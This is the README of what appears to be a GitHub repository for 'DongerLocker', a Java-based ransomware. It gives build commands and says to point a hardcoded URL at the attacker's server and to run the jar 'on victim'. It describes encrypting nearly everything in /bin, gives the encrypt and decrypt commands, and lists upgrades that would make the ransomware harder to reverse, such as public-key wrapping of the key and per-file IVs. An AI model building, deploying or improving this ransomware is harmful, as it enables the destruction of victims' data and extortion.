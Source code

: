DongerLocker
===
Super dank java based crypto locker

Build
===
Make sure sbt is installed

```sbt compile```

```sbt one-jar``` <-- this gets it packed into one java binary


Run
===

Change URL on line 27 from https://hardlyuseful.com to your serv.

Then, compile, sbt one-jar, cp then run on victim.

Things to note:

Change whitelist (I encrypt everything in /bin but a few for Linux, and Program Files for Linux)

There are some commented out pieces of code to get userfolder, and its trivial to build a list of file extensions that you want to target.

```cp target/scala-2.10/dongerlocker_2.10-1.0-one-jar.jar donger.jar```

Encrypt
==

```java -jar donger.jar enc```

Decrypt
==

```java -jar donger.jar dec```

Things it doesnt do
===

Ideally, port a pub key to encrypt the symmetric key:IV to send that as one parameter when you encrypt everything.

Also, separate IV per file, and better encrypted file detection (magic values prepended/appended instead of a meme extension is ideal)

